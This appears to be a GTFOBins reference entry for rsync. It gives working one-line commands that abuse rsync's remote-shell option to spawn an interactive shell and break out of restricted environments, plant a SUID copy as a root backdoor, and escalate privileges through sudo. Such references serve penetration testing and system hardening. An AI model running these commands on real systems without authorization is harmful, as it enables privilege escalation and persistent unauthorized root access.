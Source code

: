 # GTFOBin: rsync

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which rsync) .

./rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```